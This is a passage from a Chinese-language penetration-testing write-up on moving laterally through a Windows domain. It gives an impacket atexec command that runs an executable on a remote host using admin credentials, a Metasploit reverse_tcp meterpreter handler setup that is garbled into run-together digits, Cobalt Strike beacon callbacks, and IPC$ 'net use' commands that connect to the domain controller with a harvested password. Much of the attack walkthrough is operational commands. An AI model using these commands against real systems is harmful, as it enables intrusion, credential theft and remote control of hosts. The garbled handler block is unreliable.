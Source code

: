 ```python
      # exec2 = 'python .\\impacket-0.11.0\\examples\\atexec.py ./Administrator:'+'admin!@#45'+'@'+'192.168.3.29'+' "c:/y.exe"'
      # os.system(exec2)

```

可以看到这里已经有流量经过了，说明我们已经经过我们的vps将流量转发到内网了：

![截图](65c9ea2e70271ad93136cee7c5be778e.png)

因为经过了多次代理转发以及内网环境流量较慢等因素，因此我们的完成的速度会很慢很慢。但通过cmd的回显窗口，我们可以看出已经完成命令的执行了：

![截图](f80428596736c35d88c814cc39382350.png)

然后，在CS中我们发现已经上线了！！！！

![截图](be145d50705ca4815f969e3d5fc64d8d.png)

#### xxxxxxxxxx6 1use exploit/multi/handler2set payload windows/meterpreter/reverse_tcp3set LHOST 127.0.0.14set LPORT 22235exploit6​bash

通过抓取明文密码，我们发现了一下新的密码，然后我们继续用这个密码继续尝试登陆上线看看

![截图](435a790934808807f297e1b1cedd7f40.png)

#### 5）利用新的密码获取到新主机的权限

![截图](0f5fd82dc32610d1a1209e23e7679282.png)

至此，已经可以通杀域内主机了！

### 3、利用IPC手动攻击

在这一部分中，我们可以使用正向连接的方法进行测试！ 首先建立监听器，设置正向链接木马：

![截图](7848b6c03285fc217561a36fecf13fda.png)

![截图](7984f4ceba48aab98a7e19e1fe669664.png)

接下来我们就使用IPC进行连接，IPC的主要命令如下：

```bash
net use \\server\ipc$ "password" /user:username # 工作组
net use \\server\ipc$ "password" /user:domain\username #域内
```

我们利用之前拿到的密码Admin12345建立对域控主机的连接：

```bash
shell net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\administrator
```

使用以下命令可以查看当前存活的连接：
